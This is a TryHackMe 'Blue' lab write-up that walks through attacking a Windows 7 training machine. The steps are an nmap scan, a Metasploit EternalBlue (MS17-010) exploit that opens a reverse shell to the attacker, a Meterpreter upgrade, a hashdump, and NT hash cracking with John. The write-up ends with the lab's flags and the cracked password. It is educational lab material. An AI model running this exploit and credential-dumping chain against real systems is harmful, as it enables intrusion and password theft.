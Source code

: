 # TryHackMe - Blue Room Write-Up

**Category:** Easy
**Platform:** Windows
**Skills:** SMB Enumeration, Exploitation (MS17-010), Privilege Escalation

---

## Objective

Exploit the EternalBlue vulnerability on a Windows 7 machine, gain remote access, escalate privileges, and capture flags.

---

## 1. Enumeration 🔎

### Nmap Scan

```bash
nmap -sC -sV -p- -T4 <IP>
```

### Key Findings:

* Port 445 (SMB) open
* Windows 7 Professional SP1
* Likely vulnerable to **MS17-010 (EternalBlue)**

---

## 2. Exploitation 🎯

### Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set LHOST <your-ip>
set LPORT 4444
exploit
```

🎉 If successful, we get a shell!

---

## 3. Upgrade to Meterpreter 💼

```bash
use post/multi/manage/shell_to_meterpreter
set SESSION <id>
run
```

Check current user:

```bash
getuid
```

If already SYSTEM, no need for further escalation.

---

## 4. Dumping Hashes 🔑

```bash
hashdump
```

Sample:

```
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Crack with John:

```bash
john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password cracked: `alqfna22`

---

## 5. Flag Collection 🚩

### Flag 1 – Root directory

```bash
C:\flag1.txt
```

📍 `flag{access_the_root}`

### Flag 2 – SAM Backup (optional)

File sometimes auto-deletes. Retry VM if missing.
📍 `flag{passwords_were_here}` (if exists)

### Flag 3 – Jon's Documents

```bash
C:\Users\Jon\Documents\flag3.txt
```

📍 `flag{admin_documents_can_be_valuable}`

---

## Summary 🧩

| Step                 | Status |
| -------------------- | ------ |
| SMB Enumeration      | ✅      |
| EternalBlue Exploit  | ✅      |
| Privilege Escalation | ✅      |
| Hashdump & Cracking  | ✅      |
| Flag Collection      | ✅      |

---

## Lessons Learned 💡

* SMB enumeration is crucial on Windows machines
* EternalBlue remains a dangerous legacy vulnerability
* Privilege escalation and hash cracking strengthen post-exploitation
* File structure knowledge helps find hidden flags

---

📘 *Thanks to TryHackMe for the amazing learning platform!*

---

